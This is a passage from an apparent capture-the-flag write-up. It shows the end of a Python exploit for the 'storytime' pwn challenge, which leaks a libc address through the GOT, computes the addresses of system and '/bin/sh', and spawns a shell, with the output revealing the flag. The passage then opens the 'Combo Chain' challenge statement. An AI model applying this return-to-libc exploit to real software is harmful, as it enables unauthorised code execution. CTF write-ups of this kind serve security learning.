 ```python
payload += call(write_plt, 1, read_got, None) # Call write(1, read_got, <something>)
payload += p64(main_addr) # Jump back to main

sh.sendlineafter(": \n", payload)

# Offsets from the libc library
read_libc_offset = 0x00000000000f7250
system_libc_offset = 0x0000000000045390
bin_sh_libc_offset = 0x18cd57

libc_base = u64(sh.recvuntil('story')[:8]) - read_libc_offset # Calculate the libc base address
print 'libc_base: {}'.format(hex(libc_base))

system_addr = libc_base + system_libc_offset # Use the base address to find system's address 
bin_sh = libc_base + bin_sh_libc_offset # Use the base address to find '/bin/sh's address

# We are at main again, so we redo the payload but call system('/bin/sh') this time
payload = "A"*(0x30+8)
payload += call(system_addr, bin_sh, None, None)

sh.sendlineafter(': \n', payload)

sh.interactive()
```

We get the flag!
```shell
» ./exploit.py 
libc_base: 0x7fdb6d860000
$ ls
bin
dev
exploit.py
flag
lib
lib32
lib64
storytime
$ cat flag
hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}
$  
```

Flag: `hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}`

# Combo Chain
<a href="{{ page.url }}#title">Back to top ↑</a>

### Challenge

>Written by: Ptomerty
>
>I've been really into Super Smash Brothers Melee lately...
>
>nc pwn.hsctf.com 2345
>
>Note: If you're trying to use python or a similar program to run your exploit, make sure to keep stdin alive with cat, like this: (python; cat -) \| nc pwn.hsctf.com <port>
>
>6/3/19 7:35 AM: Binary updated, SHA-1: 0bf0640256566d2505113f485949ec96f1cd0bb9 combo-chain
